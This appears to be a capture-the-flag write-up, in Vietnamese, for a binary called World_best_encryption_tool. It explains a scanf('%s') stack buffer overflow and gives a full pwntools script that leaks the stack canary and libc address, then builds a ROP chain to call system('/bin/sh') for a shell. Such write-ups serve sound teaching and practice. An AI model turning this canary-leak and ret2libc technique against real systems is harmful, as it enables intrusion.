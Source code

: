 # World_best_encryption_tool

# REVERSE

#### Chương trình cho nhập 2 lần:
* Nhập text vào, chương trình sẽ encrypt bằng thuật toán như sau:
```sh
for ( i = 0; i <= 0x31; ++i )
      src[i] ^= 0x1Cu;
```
* Nhập xác nhận (yes/no) cho việc thực hiện encrypt tiếp theo.
```sh
do{
    ...
__isoc99_scanf("%s", s1);
}
  while ( !strcmp(s1, "Yes") );
```
Hàm __isoc99_scanf() sử dụng đặc tả %s, nên chúng ta sẽ nhập 1 chuỗi, nhưng sẽ không giới hạn độ dài. --> buffer overflow.

# EXPLOIT

Khai thác chương trình theo 2 bước:
* leak canary, libc, tính base, system, binsh
* getshell

```py
#just solve at local
from pwn import *
s = process("./World_best_encryption_tool")
# s = remote("ctf.j0n9hyun.xyz", 3027)
elf = ELF("./World_best_encryption_tool")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# raw_input("debug")


RET = 0x4005be
POP_RDI = 0x4008e3
PUTS_GOT = 0x601020
PUTS_PLT = 0x4005e0

s.recvuntil("Your text)\n")
s.sendline("A"*0x78)

s.recvuntil("AAAAAAA")
canary = u64("\x00"+s.recv(7))
print hex(canary)
print "puts_got >>" + hex(elf.sym['got.puts'])

pl = "a"*0x7c 
pl += p64(canary)
pl += "A"*8
pl += p64(POP_RDI) 
pl += p64(0x601048)
pl += p64(PUTS_PLT)
pl += p64(elf.symbols['main'])

s.recvuntil("(Yes/No)\n")
s.sendline(pl)

s.recvuntil("It's not on the option")
leak = u64(s.recv(6).ljust(8,"\x00"))
libc.address = leak - libc.symbols['__isoc99_scanf']
system = libc.symbols['system']
binsh = next(libc.search("/bin/sh"))

log.info("__scanf {}".format(hex(leak)))
log.info("libc base {}".format(hex(libc.address)))
log.info("system {}".format(hex(system)))
log.info("binsh {}".format(hex(binsh)))

s.recv()
s.sendline("AzirComback!!!")
pl2 = "a"*0x7c
pl2 += p64(canary)
pl2 += p64(1)
pl2 += p64(POP_RDI)
pl2 += p64(binsh)
pl2 += p64(RET)
pl2 += p64(system)

s.recvuntil("(Yes/No)")
s.sendline(pl2)

s.interactive()
```